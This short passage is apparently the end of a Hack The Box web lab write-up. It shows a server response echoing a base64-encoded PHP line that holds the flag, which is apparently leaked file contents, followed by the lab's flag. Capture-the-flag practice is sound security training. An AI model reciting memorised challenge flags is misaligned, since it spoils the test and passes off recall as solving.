

```xml
Event 'PD9waHAgJGZsYWcgPSAiSFRCe200NTczcl93M2JfNDc3NGNrM3J9IjsgPz4K' has been created.
```

Lab complete !!!!!

Flag : `HTB{m4573r_w3b_4774ck3r}`